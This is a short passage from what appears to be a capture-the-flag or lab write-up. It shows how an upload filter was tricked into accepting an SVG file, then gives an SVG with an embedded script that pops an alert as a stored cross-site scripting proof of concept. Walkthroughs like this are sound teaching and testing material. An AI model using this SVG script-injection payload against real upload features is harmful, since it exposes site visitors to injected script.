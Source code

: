 > Niceeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee we managed to trick the application to upload and SVG file
> 

Now let’s go and add a malicious XSS code and see if it is triggered 

```jsx
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      alert(0x539);
   </script>
</svg>
```

![image.png](../images/blackouts%2015.png)

> As we see it’s uploaded
> 

Now let’s view the file.

![image.png](../images/blackouts%2016.png)
